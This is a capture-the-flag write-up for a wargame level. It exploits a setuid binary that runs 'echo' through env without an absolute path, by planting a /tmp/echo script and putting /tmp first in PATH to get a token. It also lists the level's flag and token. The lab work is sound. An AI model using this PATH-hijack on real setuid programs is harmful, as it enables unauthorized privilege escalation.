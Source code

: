 ## FLAG: `kooda2puivaav1idi4f57q8iq`

## We have an executable
> ls -l
```
    total 12
    -rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

## It ask us to exploit it
> ./level03
```
    Exploit me
```

## We use `ltrace` to intercept library calls
> ltrace ./level03
```
    __libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>
    getegid()                                                                                                              = 2003
    geteuid()                                                                                                              = 2003
    setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                                    = 0
    setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                                    = 0
    system("/usr/bin/env echo Exploit me"Exploit me
    <unfinished ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                                                 = 0
```
## No absolute path for ``echo`` : `system("/usr/bin/env echo Exploit me"Exploit me`
## We can exploit this using our own

------------------------------------------------

## We create the script to execute getflag
> vi /tmp/echo
```
#!/bin/bash
getflag
```
> chmod +x /tmp/echo

## We add the script's folder to the `PATH` variable
> export PATH="/tmp:$PATH"

## and execute the Program
> ./level03
```
    Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
